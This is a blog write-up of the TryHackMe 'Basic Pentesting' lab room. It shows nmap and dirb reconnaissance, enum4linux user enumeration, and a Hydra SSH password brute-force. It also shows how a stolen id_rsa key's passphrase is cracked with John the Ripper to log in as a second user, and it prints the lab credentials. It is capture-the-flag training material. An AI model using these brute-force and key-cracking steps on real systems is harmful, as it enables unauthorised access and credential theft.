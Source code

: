 ```yaml
---
layout: single
title: "TryHackMe Basic Pentesting"
categories: TryHackMe
tag: [TryHackMe, Basic Pentesting]
toc: true
toc_sticky: true
toc_label: 목차
author_profile: false
---
```


##  <img src="C:\Users\hjopy\OneDrive\바탕 화면\Jake\blog\blog\crackernote.github.io\assets\images\그림1.png" alt="그림1" style="zoom:6%;" /> TryHackMe  Basic Pentesting

#### 📜 Basic Pentesting

"Basic Pentesting" is a beginner level pentesting room in TryHackMe.

Let's dive in the room.



#### 📜 Task 1. Find the services exposed by the machine 

I used **Nmap** tool to find the services running on the target system.

```python
Nmap -sC -sV [Target_Machine_IP]
```

![image-20230711214849918](../images/image-20230711214849918.png)

​                                                           Screenshot 1 (nmap results)

We can see the services are : 

- SSH (Port 22)
- **HTTP (Port 80)**
- **SAMBA (Port 139 & 445)**
- HTTP-Proxy (Port 8080)

​	

#### 📜 Task 2. What is the name of the hidden directory on the web server(enter name without /)? 

I used **dirb** tool to find hidden directories on the web server.

```python
dirb http://[Tartget_IP] /usr/share/wordlists/dirb/common.txt
```

![image-20230712085405301](../images/image-20230712085405301.png)

​                                                           Screenshot 2 (dirb results)

We can see the hidden directory :  **/development**

Now navigate around the website and development directory on the website.

![image-20230712090011680](../images/image-20230712090011680.png)

​                                                             Screenshot 3 ("/development" directory)



Now let’s open each texts. We may find something interesting here

![image-20230712103713564](../images/image-20230712103713564.png)

​                                                                          Screenshot 4 (dev.txt)



![image-20230712103729467](../images/image-20230712103729467.png)

​                                                                           Screenshot 5 (j.txt)



#### 📜 Task 3. **User brute-forcing to find the username & password**

Here we need to find the username and password. But first we need to determine the users present on our target system.

So we know that samba is running on our target (from Nmap results & text files on the websites)
We can use **enum4linux** tool to enumerate the machine. Syntax for tool is as follows :

```python
enum4linux -e [Target_Machine_IP]
```



![image-20230725101342685](../images/image-20230725101342685.png)

​                                                              Screenshot 6 (enum4linux results)

Now we can find the users **"kay"** and **"jan"**

From the texts in development folder we analysed that J (or Jan) is having a weak password so it will be easier to brute-force that using our best friend **Hydra.**

So the syntax for hydra for cracking Jan’s password will be :

```python
hydra -l jan -P
/usr/share/wordlists/rockyou.txt ssh://[TARGET_MACHINE_IP]
```

![image-20230725103422716](../images/image-20230725103422716.png)

​                                                              Screenshot 7 (hydra results)



#### 📜 Task 4. What is the username?

*Answer* : **jan** (from Screenshot 7)



#### 📜 Task 5. What is the password?

*Answer* : **armando** (from Screenshot 7)



#### 📜 Task 6. **What service do you use to access the server(answer in abbreviation in all caps)?** 

*Answer* : **ssh** 

```
ssh jan@[TARGET_MACHINE_IP]
```



#### 📜 Task 7. Enumerate the machine to find any vectors for privilege escalation. 

We can login with "jan" but  we don't have permission pass.bak file

![image-20230725104228803](../images/image-20230725104228803.png)

​                                                              Screenshot 8 (Permission denided)



So we should escalate privilege to get loot level but we don't have the password for user kay. 

However, we can use ssh key of kay and then finding the passphrase to access the machine as kay.



**First,** Get the id_rsa key from kay’s directory and save it in our system.

```python
cd /home/kay
cd .ssh
cat id_rsa
```

![image-20230725201431731](../images/image-20230725201431731.png)

​                                                              Screenshot 9 (id_rsa)

Copy this key and save it in our system by name "id_rsa.txt"



**Second,** Cracking the key for passphrase with **"John The Ripper"**

```
python3 /opt/john/ssh2john.py id_rsa.txt > decrypted.txt
```

This will convert our Private SSH key into john form so that it can be cracked further

```
john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt
```

This will give us our phrase : **beeswax**



**Third,** Accessing as kay

Go to jan’s shell and write this command (because if we try to do this outside the ssh of jan or on our system shell it will not allow that)

```
ssh -i /home/kay/.ssh/id_rsa kay@[TARGET_MACHINE_IP]
```

![image-20230725203252755](../images/image-20230725203252755.png)

​                                                              Screenshot 10 (Login with kay)

And finally we can see **"pass.bak"** file

![image-20230725203505982](../images/image-20230725203505982.png)

​                                                              Screenshot 11 (pass.bak)
